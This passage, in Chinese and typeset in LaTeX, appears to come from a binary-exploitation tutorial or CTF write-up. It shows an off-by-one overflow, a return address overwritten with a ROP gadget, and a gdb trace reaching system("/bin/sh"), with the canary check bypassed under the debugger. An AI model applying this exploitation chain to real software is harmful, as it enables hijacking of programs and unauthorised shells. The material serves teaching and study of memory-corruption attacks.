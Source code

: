 \documentclass[10pt,a4paper]{article}
\providecommand{\tightlist}{%
  \setlength{\itemsep}{0pt}\setlength{\parskip}{0pt}}
\begin{document}
\begin{itemize}
\tightlist
\item
  \texttt{state\ \allowbreak{}=\ \allowbreak{}0x7fffffffdcc0}，\texttt{rbp\ \allowbreak{}=\ \allowbreak{}0x7fffffffddd0} →
  \textbf{\texttt{state\ \allowbreak{}=\ \allowbreak{}rbp\ \allowbreak{}-\allowbreak{}\ \allowbreak{}0x110} 完全吻合推導}。
\item
  \texttt{capacity} 從 \texttt{0x100} 變成 \texttt{0x1ff}（off-by-one
  生效）。
\item
  \texttt{rbp+8} 被我們覆蓋成 \texttt{0x55555555501a} =
  \texttt{PIE\_\allowbreak{}base(0x555555554000)\ \allowbreak{}+\ \allowbreak{}0x101a}（\texttt{ret} gadget）。
\end{itemize}

ROP 執行時的 gdb 追蹤（\texttt{set\ \allowbreak{}\$\allowbreak{}pc\ \allowbreak{}=\ \allowbreak{}base+0x1a7d}
強制跳過金絲雀比較，因為輸入檔的金絲雀是舊的）：

\begin{Verbatim}[breaklines=true,breakanywhere=true,breakautoindent=false,fontsize=\fontsize{7.0}{9.5}\selectfont]
=== 2) forced to `leave` (0x1a7d); rbp=0x7fffffffddd0 rsp=0x7fffffffdcb0
0x7fffffffddc8: 0xe4fbd8d3ee76a900  0x00007fffffffde60
0x7fffffffddd8: 0x000055555555501a  0x00005555555552aa
0x7fffffffdde8: 0x0000555555558a54  0x00005555555550c0
=== 3) after leave;ret -> rip=0x55555555501a rsp=0x7fffffffdde0
Breakpoint 2, 0x00005555555550c0 in system@plt ()
=== 4) system@plt reached: rdi=0x555555558a54 -> "/bin/sh"
system() entry: rdi=0x555555558a54 ("/bin/sh")  rsp=0x7fffffffddf8  rsp&0xf=8
\end{Verbatim}

\texttt{rsp\ \allowbreak{}\&\allowbreak{}\ \allowbreak{}0xf\ \allowbreak{}==\ \allowbreak{}8} → \textbf{16-byte 對齊正確}（所以
\texttt{system} 裡面的 \texttt{movaps} 不會炸）。

\begin{center}\rule{0.5\linewidth}{0.5pt}\end{center}

\subsubsection{6. 從零開始 ROP（Return-Oriented
Programming）}\label{ux5f9eux96f6ux958bux59cb-ropreturn-oriented-programming}

\paragraph{6.1 觀念}\label{ux89c0ux5ff5}
\end{document}
